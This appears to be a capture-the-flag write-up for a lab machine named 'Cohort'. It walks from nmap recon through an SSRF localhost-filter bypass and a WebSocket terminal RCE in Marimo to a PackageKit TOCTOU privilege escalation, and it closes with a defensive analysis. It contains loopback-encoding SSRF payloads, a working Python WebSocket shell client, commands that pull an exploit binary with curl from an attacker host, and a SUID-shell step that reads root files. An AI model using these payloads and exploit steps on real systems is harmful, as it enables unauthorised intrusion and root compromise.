# Cohort

```
Difficulty: Easy
OS: Linux (Ubuntu 24.04)
Services: nginx (HTTP/HTTPS reverse proxy), SSH, Internal Flask API, Marimo Notebook (WebSocket), D-Bus/PackageKit
```


## Offensive Actions

## Summary of Attack Chain

| Step | User / Access | Technique Used | Result |
| :---: | :------------------------ | :------------------------------------------------------- | :---------------------------------------------------------------------------------------- |
| 1 | N/A (Unauthenticated) | **Network scanning (nmap)** | Identified open services `22/tcp` (SSH), `80/tcp` (HTTP), `443/tcp` (HTTPS); TLS cert leaked virtual host `cohort.htb`. |
| 2 | N/A (Web access) | **Web enumeration** | Found `portal.html` data portal with a "validate/fetch data source" feature that submits a URL server-side. |
| 3 | N/A (Web access) | **SSRF filter bypass** | `127.0.0.1` was blocklisted; bypassed using alternate loopback encoding (`http://127.1/`). |
| 4 | N/A (SSRF pivot) | **Internal port/service probing** | Used the SSRF to reach `127.1:5000` (internal Flask API) and `127.1:8888` (Marimo, internal-only). |
| 5 | N/A (SSRF pivot) | **Internal recon via status endpoint** | Queried `127.1:80/status`; nginx's upstream map disclosed a hidden internal vhost `nb-<hash>.cohort.htb` -> `127.0.0.1:8888`. |
| 6 | N/A (Unauthenticated) | **Host-header vhost pivot** | Replayed the leaked vhost as the `Host` header to route through nginx to the real Marimo application. |
| 7 | N/A (Unauthenticated) | **Version fingerprinting** | Identified **Marimo 0.20.4**, vulnerable to unauthenticated WebSocket terminal RCE (**CVE-2026-39987**). |
| 8 | N/A -> service user | **Unauthenticated WebSocket RCE** | Connected to `/terminal/ws` without credentials; executed `id` and confirmed real command execution. |
| 9 | Marimo service user | **Local enumeration** | SUID sweep and `sudo -l` came up empty; found outdated **PackageKit** with D-Bus and `dpkg-deb` present. |
| 10 | Marimo service user | **Payload delivery** | Staged `exploit.bin` (Pack2TheRoot PoC) via `python -m http.server` and pulled it with `curl`. |
| 11 | Marimo service user | **TOCTOU race condition (PackageKit)** | Exploited **CVE-2026-41651**: raced two `InstallFiles` D-Bus calls on one transaction (SIMULATE -> real install) to smuggle a malicious `.deb`. |
| 12 | Marimo service user -> Root | **Privilege escalation (postinst execution)** | Malicious `.deb`'s `postinst` script ran as root, dropping a SUID `bash` at `/tmp/.suid_bash`. |
| 13 | Root | **Flag capture** | Ran `/tmp/.suid_bash -p -c 'id; cat /root/root.txt'`; confirmed `uid=0(root)` and retrieved **root.txt**. |


### Reconnaissance

```
nmap --privileged -sCV -oA nmap_results 10.XXX.XXX.XXX
```

| Flag | Meaning |
|-----------|-------------------------------------------------------------------------------------------------|
| `--privileged` | Tells nmap it has raw-socket privileges (root/CAP_NET_RAW), enabling SYN scans and other raw-packet techniques instead of falling back to a slower TCP connect scan. |
| `-sC` | Runs nmap's **default script set** (`--script=default`) - safe, commonly-useful NSE scripts (banner grabs, cert info, title fetch, etc.). |
| `-sV` | **Version detection** - probes open ports to identify the actual service/software/version running, not just "port is open." |
| `-oA nmap_results` | Output **A**ll formats - writes `nmap_results.nmap`, `.xml`, and `.gnmap` simultaneously. |

`-sCV` is shorthand for combining `-sC` and `-sV` in one flag.

**Scan duration:** 21.45 seconds - fast, consistent with only 3 open ports and a single host.


## Host Summary

- **Target IP:** `10.XXX.XXX.XXX`
- **Resolved hostname:** `cohort.htb` (nmap already shows this - meaning `/etc/hosts` or DNS resolution for `cohort.htb` was already configured before the scan)
- **Latency:** 0.23s - typical for an HTB VPN-routed lab target, not a local network host.
- **Closed ports:** 997 out of the first 1000 well-known ports were closed (reset immediately) - i.e., this is a fairly locked-down host with a minimal attack surface exposed to the network.


## Port-by-Port Breakdown

### Port 22 SSH

```
22/tcp  open  ssh   OpenSSH 9.6p1 Ubuntu 3ubuntu13.18 (Ubuntu Linux; protocol 2.0)
```

- **Service:** OpenSSH, version **9.6p1**, packaged for Ubuntu (patch level `3ubuntu13.18`).
- **Protocol:** SSHv2 only (modern, secure protocol version).
- **What this tells you:**
  - Ubuntu-based host (confirms OS family before any OS-detection scan is needed).
  - `9.6p1` is a fairly recent OpenSSH release - not likely to have an easy pre-auth RCE; SSH here is more useful as a **destination** (once you have creds) than an initial attack surface.
  - Host keys were fingerprinted:
    ```
    256 ECDSA  0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df
    256 ED25519 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0
    ```
    These are useful later to confirm you're talking to the same host (e.g., after a pivot, or to detect a MITM) but aren't independently exploitable.
- **Practical takeaway:** Note this port for later - once you get valid credentials or an SSH key (e.g., from a compromised user's home directory), this becomes your **stable remote-access channel** instead of relying on a web shell.


### Port 80 HTTP (nginx)

```
80/tcp  open  http  nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to https://cohort.htb/
```

- **Service:** nginx **1.24.0**, Ubuntu-packaged build.
- **Behavior:** The server immediately issues an HTTP -> HTTPS redirect (301/302) pointing to `https://cohort.htb/`. Nmap's `http-title` script didn't auto-follow it (by default nmap won't blindly follow cross-protocol redirects), so it just logged the redirect target instead of a page title.
- **Practical takeaway:** This is exactly how the hostname `cohort.htb` was first discovered in the original writeup - the **redirect Location header and the TLS certificate together leak the real vhost name**, which is critical since nginx routes by `Host` header. Without setting `cohort.htb` in `/etc/hosts`, you'd never reach the real site content.


### Port 443 HTTPS (nginx, with TLS + hostname info)

```
443/tcp open  ssl/http nginx 1.24.0 (Ubuntu)
```

Same nginx version as port 80, this time serving TLS.

#### TLS Certificate Details

```
ssl-cert: Subject: commonName=cohort.htb/organizationName=Cohort Analytics
Subject Alternative Name: DNS:cohort.htb, DNS:*.cohort.htb
Not valid before: 2026-06-01T18:47:07
Not valid after:  2126-05-08T18:47:07
```

- **Common Name (CN):** `cohort.htb` - confirms the primary domain.
- **Organization:** "Cohort Analytics" - a bit of OSINT/theming flavor, matches the "data portal" pretext of the box.
- **Subject Alternative Name (SAN):** `DNS:cohort.htb, DNS:*.cohort.htb`
  - The **wildcard entry (`*.cohort.htb`)** is the most important detail here. It strongly hints that **subdomains of `cohort.htb` are expected to exist and be reachable** - which foreshadows the internal vhost (`nb-<hash>.cohort.htb`) discovered later via the SSRF. A wildcard cert is a classic sign there's more virtual-hosting going on behind the scenes than what's advertised on the main page.
- **Validity window:** ~100 years (2026 -> 2126) - this is a giveaway that it's a **self-signed / lab-generated certificate**, not a real CA-issued cert (real CAs never issue century-long certs). Confirms this is a CTF/lab environment, not production infra.

#### TLS Protocol/ALPN Info

```
tls-alpn: 
  http/1.1
  http/1.0
  http/0.9
```

- **ALPN (Application-Layer Protocol Negotiation):** advertises support for HTTP/1.1, HTTP/1.0, and even the ancient HTTP/0.9 - no HTTP/2 or HTTP/3 offered. This just describes what the TLS layer will negotiate; nothing exploitable by itself, but tells you not to bother trying HTTP/2-specific request smuggling tricks against this endpoint.

```
ssl-date: TLS randomness does not represent time
```

- nmap tried to infer the server's clock from the TLS `ServerHello.random` field (older TLS implementations used to embed a timestamp there) and found it **doesn't leak the time** - i.e., no clock-skew fingerprinting available this way. Purely informational, not a vulnerability indicator.

#### HTTP Title

```
http-title: Cohort Analytics
```

- Confirms that **over HTTPS**, with the correct `Host: cohort.htb`, nmap successfully retrieved the real landing page - titled "Cohort Analytics" - matching the org name in the cert. This is the entry point referred to as the "data portal" in the writeup (`portal.html`).


### OS / Service Fingerprint Summary

```
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- Nmap's service-probe engine (not a dedicated `-O` OS scan) inferred a generic Linux host based on service banners (OpenSSH's Ubuntu build string, nginx's Ubuntu build). No specific kernel version was fingerprinted - that'll need OS-level enumeration once you have code execution.


| Observation | Importance |
|--|--|
| Only 3 ports open, all fairly modern/patched versions | No easy version-based pre-auth exploit on SSH or nginx itself - the attack surface is the **web application logic**, not the infrastructure software. |
| HTTP->HTTPS redirect leaks `cohort.htb` | You must add this to `/etc/hosts` before the site behaves correctly (Host-header/vhost routing). |
| Wildcard cert `*.cohort.htb` | Strong signal that **hidden/internal subdomains exist** - worth actively hunting for (which is exactly what the SSRF -> nginx `/status` leak later confirms: `nb-<hash>.cohort.htb`). |
| Century-long cert validity | Self-signed lab certificate - expected for an HTB machine, not a red flag for anything else. |
| SSH open with modern OpenSSH | Not an initial vector, but a good target for **persistence/lateral access** once credentials or keys are found. |
| `http-title` only resolves correctly over 443 | Reinforces that all further recon and exploitation (portal, SSRF sink, API) needs to be done against `https://cohort.htb`, with correct SNI/Host header. |


Visiting the target over HTTPS revealed a TLS certificate and an HTTP redirect that leaked the primary domain name:

```
cohort.htb
```

The attacking machine's hosts file was updated accordingly:

```
10.129.XX.XXX cohort.htb
```


### Web Entry Point & SSRF

Browsing to `https://cohort.htb` revealed a data portal. The front-end page `portal.html` includes a "validate / fetch data source" feature that submits a URL to a backend endpoint.



Intercepting the request with a proxy showed that this feature could be used to trigger arbitrary outbound HTTP requests - a classic **Server-Side Request Forgery (SSRF)** primitive.

However, requests to `127.0.0.1` were explicitly blocked by a filter.

#### Bypassing the localhost filter

Standard alternate representations of the loopback address were tried until one succeeded:

```
http://127.1/
http://2130706433/
http://0x7f000001/
```



One of these representations bypassed the naive string-matching filter, confirming the SSRF was fully exploitable against internal services.


### Discovering Internal Services via SSRF

With the filter bypassed, common internal ports were probed - paying attention to the actual HTTP response body/content-type rather than just port state:

```
http://127.1:5000/
http://127.1:5000/status
http://127.1:8888/
http://127.1:8888/status
```



Findings:

- **Port 5000** - an internal Flask/API service
- **Port 8888** - a Marimo web application, bound only to localhost (not reachable externally)

Next, the internal nginx status endpoint was queried through the SSRF:

```
http://127.1:80/status
```

Response:

```json
{
  "ok": true,
  "fetched_status": 200,
  "content_type": "application/json",
  "preview": "{\"service\":\"cohort-edge\",\"status\":\"ok\",\"generated_by\":\"nginx\",\"upstreams\":[{\"name\":\"marketing\",\"host\":\"cohort.htb\",\"root\":\"/var/www/cohort\"},{\"name\":\"insights-api\",\"host\":\"cohort.htb\",\"path\":\"/api/\",\"target\":\"127.0.0.1:5000\"},{\"name\":\"notebooks\",\"host\":\"nb-1be3782a8afd3ad5.cohort.htb\",\"target\":\"127.0.0.1:8888\",\"note\":\"internal analyst workspace, not for external use\"}]}",
  "message": "Source reachable."
}
```

This leaked a critical piece of internal infrastructure: a hidden virtual host name mapped to the Marimo service:

```
nb-1be3782a8afd3ad5.cohort.htb  ->  127.0.0.1:8888
```





**Key insight:** nginx routes by the `Host` header. Simply hitting `<IP>:8888` directly does **not** return the real Marimo page - subsequent requests through the SSRF (and any follow-on interaction) must use this exact vhost name in the `Host` header to reach the correct upstream.


### Identifying Marimo & Obtaining a Web Shell

Using the SSRF to pull internal pages and static assets (with the correct `Host` header), the internal service was confirmed to be **Marimo**, version:

```
Marimo 0.20.4
```

Further probing found the `/terminal/ws` WebSocket endpoint. This endpoint did **not** perform proper authentication checks, allowing a raw terminal WebSocket connection to be established without credentials.

#### Proof-of-concept WebSocket client

```python
import ssl
import threading
import websocket

host = "nb-1be3782a8afd3ad5.cohort.htb"
ws_url = "wss://10.XXX.XXX.XXX/terminal/ws"

ws = None

def recv_loop():
    """Continuously receive and print server output."""
    global ws
    while True:
        try:
            data = ws.recv()
            print(data, end="")
        except Exception:
            print("\n[!] Connection closed")
            break

def main():
    global ws
    ws = websocket.create_connection(
        ws_url,
        host=host,
        origin="https://" + host,
        sslopt={"cert_reqs": ssl.CERT_NONE},
        timeout=5,
    )
    print("[+] WebSocket connected. Type 'exit' to quit.")

    threading.Thread(target=recv_loop, daemon=True).start()

    while True:
        cmd = input("")
        if cmd.lower() == "exit":
            break
        # Most terminal WS backends need a line terminator - adjust \r/\n/\r\n as needed
        ws.send(cmd + "\r")

    ws.close()

if __name__ == "__main__":
    main()
```

Marimo `0.20.4` is below the fixed version `0.23.0`, corresponding to an **unauthenticated WebSocket terminal RCE**, tracked as **CVE-2026-39987**.




#### Verification logic

1. Fingerprint the exact component (Marimo), not just guess from page appearance.
2. Extract the real version string (`0.20.4`).
3. Confirm `/terminal/ws` accepts a connection while unauthenticated.
4. Execute `id` and receive real command output - proving genuine RCE, not just an information leak.


### Privilege Escalation

#### SUID enumeration

```bash
find / -perm -4000 -type f -ls 2>/dev/null
```



No custom/unusual SUID binaries were found - only standard system binaries (`sudo`, `mount`, `passwd`, `bash`, etc.).

#### sudo permissions

```
sudo -l
# password required - dead end for now
```

####  OS & PackageKit version fingerprinting

```bash
cat /etc/os-release
dpkg-query -W -f='${Version}\n' packagekit
command -v dbus-send
command -v dpkg-deb
```




The output showed an outdated PackageKit version, alongside the presence of D-Bus and `dpkg-deb` - the exact prerequisites for a known PackageKit local privilege escalation vulnerability.

#### CVE-2026-41651 - "Pack2TheRoot"

**Root cause:** a TOCTOU (time-of-check-to-time-of-use) race condition in PackageKit's transaction handling.

**Exploit logic:**

1. Create a PackageKit transaction.
2. Call `InstallFiles` once on that transaction with the `SIMULATE` flag set.
3. Before the daemon finishes processing that simulated state, send a **second** `InstallFiles` call - this time for a real install - swapping in a malicious package path.
4. The daemon's later execution phase reads the *overwritten* path/parameters instead of the originally validated ones.
5. The malicious `.deb`'s `postinst` script executes with **root** privileges.

The public PoC binary from `shibaaa204/Pack2TheRoot` (`exploit.bin`) was used.

**Delivery:**

```bash
python -m http.server 8000 --bind 10.10.16.186
curl -O http://10.10.16.186:8000/exploit.bin
```




**Execution:**

```bash
# 1. Clean up any stale artifacts
rm -f /tmp/.suid_bash /tmp/pk.log

# 2. Run the exploit in the background, logging output
nohup /tmp/exploit.bin >/tmp/pk.log 2>&1 &

# 3. Give the race condition time to land
sleep 12

# 4. Check whether a SUID bash was dropped
ls -l /tmp/.suid_bash

# 5. Inspect the exploit log for errors/results
cat /tmp/pk.log
```




####  Reading root.txt

The dropped SUID bash requires `-p` to preserve the effective (root) UID:

```bash
/tmp/.suid_bash -p -c 'id; cat /root/root.txt'
```




## Defensive Operations


### Strategic Overview

* **1.1 Definition:**
  A multi-stage Linux web-to-root compromise chain leveraging **Server-Side Request Forgery (SSRF) with localhost-filter bypass**, **internal virtual-host discovery via an exposed nginx status endpoint**, **unauthenticated WebSocket terminal RCE in a Marimo notebook service (CVE-2026-39987)**, and **a TOCTOU race condition in PackageKit's D-Bus transaction handling (CVE-2026-41651)** to achieve full **root compromise on a Linux host ("Cohort")**.

* **1.2 Impact:**
  Complete **host-level root compromise**, enabling full control over:

- The web/edge tier (nginx, `cohort.htb`)
- The internal API tier (Flask service on 127.0.0.1:5000)
- The internal analyst workspace (Marimo notebook, 127.0.0.1:8888)
- The underlying operating system (root shell, `/root/root.txt`)
- Any credentials, session material, or data reachable from a root context

* **1.3 The Scenario:**
  An external, unauthenticated attacker begins with only network access to a public-facing HTTPS portal (`cohort.htb`). A "validate data source" feature on `portal.html` accepts an arbitrary URL and performs a server-side HTTP fetch. A naive `127.0.0.1` blocklist is bypassed using an alternate loopback representation (`127.1`), turning the feature into a full internal-network SSRF primitive.

  The attacker uses the SSRF to probe internal-only ports and reaches an nginx `/status` endpoint that discloses the reverse-proxy's upstream map - including a **hidden internal virtual host** (`nb-<hash>.cohort.htb`) that fronts an internal-only Marimo notebook service on port 8888.

  Because nginx routes strictly by `Host` header, the attacker must replay this vhost name to reach the real Marimo application. Fingerprinting identifies **Marimo 0.20.4**, vulnerable to an **unauthenticated WebSocket terminal RCE**. A raw `/terminal/ws` connection yields command execution without any credentials.

  From this shell, local enumeration identifies an outdated **PackageKit** with **D-Bus** and `dpkg-deb` available - the ingredients for **CVE-2026-41651 ("Pack2TheRoot")**, a TOCTOU race in `InstallFiles` transaction handling that allows a malicious `.deb`'s `postinst` script to run as root, dropping a SUID shell and completing full host takeover.


### System Architecture

* **2.1 Protocol Environment:**
  HTTPS/TLS, HTTP (server-side fetch/SSRF), nginx reverse-proxy virtual hosting, WebSocket (`wss://`), Flask/REST API, D-Bus IPC, PackageKit transaction API, dpkg/`.deb` package format.

* **2.2 Attack Logic Flow:**

> [Public Portal `portal.html` URL-Fetch Feature] -> [SSRF via Loopback Filter Bypass (`127.1`)] -> [Internal Port/Service Probing] -> [nginx `/status` Upstream Disclosure] -> [Internal vhost Leak (`nb-*.cohort.htb`)] -> [Host-Header Pivot to Marimo 0.20.4] -> [Unauthenticated `/terminal/ws` RCE (CVE-2026-39987)] -> [Local Enumeration: outdated PackageKit + D-Bus + dpkg-deb] -> [TOCTOU Race in `InstallFiles` (CVE-2026-41651)] -> [Malicious `.deb postinst` as root] -> [SUID Shell Drop] -> [Root Compromise]

* **2.3 Theoretical Analogy:**
  The chain resembles a compromised enterprise edge-to-core pipeline. A public "URL validator" feature is trusted to only reach external resources, but functions as an unguarded bridge into the internal network once its blocklist is bypassed. The internal reverse proxy's own diagnostic endpoint then hands the attacker a map of "trusted-internal-only" services - services whose entire security model rested on the assumption that nobody outside the network segment could ever learn their hostname. Once inside, a supposedly analyst-only notebook tool becomes a code-execution foothold, and a routine system-update daemon (PackageKit) - trusted enough to be granted root via D-Bus - becomes the final privilege-escalation vector because its multi-step transaction protocol wasn't atomic.


### Attack Vector

| Attribute                    | Technical Details                                                                                                                                                                                                                                                                                                                                                                          |
| :-------------------------------------------- | :---------------------------------------------------------------------------------- |
| **Primary Identifiers**      | `portal.html` server-side URL fetch endpoint (SSRF sink) <br> `127.1` / `2130706433` / `0x7f000001` loopback filter bypass <br> nginx `/status` upstream-disclosure endpoint <br> Internal vhost `nb-<hash>.cohort.htb` (Host-header routed) <br> Marimo `/terminal/ws` unauthenticated WebSocket <br> PackageKit `InstallFiles` D-Bus method (SIMULATE -> real install race)               |
| **Critical Vulnerabilities** | - Blocklist-only SSRF filtering (no canonicalization of IP encodings) <br> - Internal service topology exposed via a debug/status endpoint reachable from SSRF <br> - Host-header-based routing with no additional access control on internal-only vhosts <br> - Marimo `/terminal/ws` missing authentication pre-0.23.0 (CVE-2026-39987) <br> - PackageKit TOCTOU race in transaction state handling (CVE-2026-41651) |
| **Offensive Actions**        | 1. Submit attacker-controlled URL to the portal's "validate/fetch" feature. <br> 2. Bypass the `127.0.0.1` blocklist using `127.1`. <br> 3. Enumerate internal ports 5000/8888/80 via the SSRF. <br> 4. Query nginx `/status` to enumerate upstream services and internal hostnames. <br> 5. Pivot to `nb-<hash>.cohort.htb` using the correct `Host` header to reach Marimo. <br> 6. Fingerprint Marimo version (0.20.4) and connect to `/terminal/ws` unauthenticated. <br> 7. Execute commands (`id`, shell) to confirm RCE. <br> 8. Enumerate local privesc surface (SUID, sudo, PackageKit/D-Bus/dpkg-deb). <br> 9. Deliver and run a Pack2TheRoot exploit binary to win the `InstallFiles` TOCTOU race. <br> 10. Use the resulting SUID bash (`-p`) to read `/root/root.txt` as root. |


### Prerequisites

* **Access Level:**

  * Unauthenticated external network access to `https://cohort.htb`
  * No credentials required at any stage of this chain
  * Ability to intercept/replay HTTP requests (e.g., Burp Suite) to drive the SSRF

* **Connectivity:**

  * HTTPS (443) to the public portal
  * SSRF-mediated access to internal-only services: 80 (nginx status), 5000 (Flask API), 8888 (Marimo)
  * WebSocket (`wss://`) to `/terminal/ws` once the correct `Host` header is known
  * Outbound HTTP from the compromised host to the attacker's staging server (for payload delivery)

* **Target State:**

  * SSRF endpoint filters `127.0.0.1` literally but not equivalent IP encodings
  * nginx `/status` diagnostic endpoint reachable without authentication
